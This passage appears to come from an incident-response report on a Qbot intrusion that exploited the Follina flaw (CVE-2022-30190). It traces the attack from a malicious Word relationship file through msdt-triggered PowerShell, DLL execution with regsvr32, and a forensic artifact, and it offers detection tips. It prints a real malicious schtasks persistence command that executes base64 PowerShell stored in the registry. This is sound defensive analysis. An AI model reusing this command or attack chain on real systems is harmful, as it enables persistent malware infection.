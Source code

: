 This “relationship” (RELS) file contained an external reference to a remote HTML file, configured to be retrieved and loaded when the Word document is opened, or viewed in Preview Mode.

At the bottom of the retrieved HTML page source, the script tag was defined and contained malicious JavaScript code that called the ms-msdt scheme.

When a system is vulnerable to Follina (CVE-2022-30190), the code will be interpreted and executed by msdt.exe (Microsoft Support Diagnostic Tool). A good detection opportunity is to monitor for this process being spawned by a Microsoft Office application such as WINWORD.EXE

In our case, the payload contained base64-encoded PowerShell code. The decoded payload is also logged in EventID 4104 (script block logging) upon execution by the PowerShell engine.

The Follina payload was designed to download Qbot libraries from three different URLs, drop the files inside the user’s temp directory, and finally execute the DLLs using regsvr32.exe


# Execution

Upon execution of the MSDT payload, a new instance of the sdiagnhost.exe (Scripted Diagnostics Native Host) was spawned. This process was ultimately responsible for invoking the Follina payload, starting, in our case, three child instances of regsrv32.exe .

After execution of the payload, the XML file PCW.debugreport.xml was created in the %localappdata%\Diagnostics. directory. This file can serve as a valuable artifact when analyzing Follina exploitation (attempts). The payload, preceded by its recursive path, can be found in the TargetPath element of this XML-file. The payload configured to execute on the system is embedded in this file.

# Persistence

Qbot maintained persistence by creating scheduled tasks across multiple endpoints. An example of a command that was executed can be seen below:

schtasks.exe /Create /F /TN "{E9ADEA37-C329-4967-9CF5-2682DA7D97BE}" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\Benfouqcgq).rxftejkhydnwmpt)))

The scheduled task creation events were recorded in the Microsoft-Windows-TaskScheduler/Operational log.

Inspection of the scheduled task showed that PowerShell referenced a registry key with a random generated value. This value differed from endpoint to endpoint:

The data of this registry key consisted of a base64-encoded string:

Decoding the base64-encoded string revealed a significant number of QBot’s C2 IPv4 addresses and ports:

C2 IPv4s are provided in the IoC section of this report.

The SysWow64\Explorer.exe process was also observed cycling through a number of domains – indicated by the DNS requests with a QueryStatus of RCODE:0 (NO ERROR).

In addition, several connectivity checks were made to email relay services:

# Defense Evasion
